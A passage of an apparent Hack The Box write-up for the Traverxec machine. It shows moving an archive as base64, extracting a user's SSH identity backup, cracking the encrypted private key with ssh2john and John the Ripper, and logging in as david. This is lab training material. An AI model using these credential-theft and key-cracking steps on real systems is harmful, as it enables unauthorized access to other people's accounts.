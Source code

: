 ```bash
DosbDNdsi2QVw6lUdlFiyK9blGcUvBAPwjGoEaA5dhC6k64xDKIOGm4hEDv04mzlN38RJ+esB1kn
0ZlsipmJzcY4uyCOP+K8wS8YDF6BQVqhaQuUxntmugM56hklYxQso4sy7ElUU3p4iBfras5rLybx
5lC2Kva9vpWRcUxzBGDPcz8wmSRaFsVfigB1uUfrGJB8B41Dtq5KMm2yhzhxcAYJl5fz4xQiRDP5
1jEzhXMFQEo6ihUnhNc0R25hTn0Qpf4wByp8N/mdGQRmPmmLF5bBI6jKiy7mLbI76XmW2CfN+IBq
mVm0rRDvU9dVihl7v0I1RmcWK2ZCYZe0KSRBVnCt/JijvovyLdiQBDe6AG6cgjoBPnvEukh3ibGF
d+Y2jFh8u/ZMm/q5cCXEcCHTMZrciH6sMoRFFYj3mxCr8zoz8w3XS6A8O0y4xPKsbNzRZH3vVBds
Mp0nVIv0rOC3OtfgTH8VToU/eXl+JhaeR5+Ja+pwZ885cLEgqV9sOL2z980ytld9cr8/naK4ronU
pOjDYVkbMcz1NuG0M9zREGPuUJfHsEa6y9kAKjiysZfjPJ+a2baPreUGga1d1TG35A7mL4R9SuII
FBvJDLdSdqgqkSnIi8wLRtDTBHhZ0NzFK+hKjaPxgW7LyAY1d3hic2jVzrrgBBD3sknSz4fT3irm
6Zqg5SFeLGgaD67A12wlmPwvZ7E/O8v+9/LL9d+P3Rx/vxj/0fmPwL7Uf19+F7zrvz+A9/nvr33+
e/PmzZs3b968efPmzZs3b968efPmzf8vfweR13qfACgAAA==
```

![transfer gz archive into my machine using base64](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/traverxec/b64-gz.png)

### backup-ssh-identity-files.tgz

```bash
$ cp ../backup-ssh-identity-files.tgz .
$ tar xvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

Obviously the RSA key is encrypted:

![encrypted RSA key](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/traverxec/enc.png)

Therefore, we have to use `ssh2john`

### ssh2john

```bash
$ /usr/share/john/ssh2john.py home/david/.ssh/id_rsa > david_rsa.john
$ john david_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (home/david/.ssh/id_rsa)
1g 0:00:00:02 DONE (2021-01-02 14:15) 0.4878g/s 6995Kp/s 6995Kc/s 6995KC/s  0125457423 ..*7¡Vamos!
Session completed
```

The password of `id_rsa` is `hunter`. We can now log in as **david**:

![ssh david](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/traverxec/ssh-david.png)
